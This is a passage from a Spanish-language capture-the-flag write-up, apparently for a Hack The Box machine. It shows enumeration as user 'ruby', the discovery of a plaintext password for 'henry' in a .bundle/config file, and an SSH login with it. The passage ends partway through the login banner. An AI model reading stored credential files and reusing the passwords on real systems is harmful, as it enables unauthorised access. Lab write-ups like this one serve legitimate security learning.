 
<h2 id="Ruby">Enumeración de Usuario Ruby</h2>

Para no mostrar todo lo que vi, que es inútil, voy a poner solo lo interesante.

Entramos en la carpeta **/home** para ver si podemos ver la flag, que te recuerdo, no vamos a poder verla:
```bash
cd /home
ls
henry  
ruby
cd henry        
ls
user.txt
cat user.txt
cat: user.txt: Permission denied
```

Tenemos un usuario, pero no tenemos la contraseña, vamos a ver si hay directorios ocultos de **Ruby** porque del usuario no podremos verlos:
```bash
cd ruby
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Apr 10 14:08 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Apr 10 14:08 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Muy bien, si tratamos de ver todos, el que contendrá la contraseña y el usuario, será el directorio oculto **.bundle**:
```bash
cd .bundle
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 4 ruby ruby 4096 Apr 10 14:08 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
```

Excelente, veamos que dice ese archivo **config**:
```bash
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
exit
```
Muy bien, tenemos la contraseña del **usuario henry**.

Es momento de entrar a la máquina por el servicio SSH:
```bash
ssh henry@10.10.11.189              
The authenticity of host '10.10.11.189 (10.10.11.189)' can't be established.
ED25519 key fingerprint is SHA256:1WpIxI8qwKmYSRdGtCjweUByFzcn0MSpKgv+AwWRLkU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.189' (ED25519) to the list of known hosts.
henry@10.10.11.189's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
```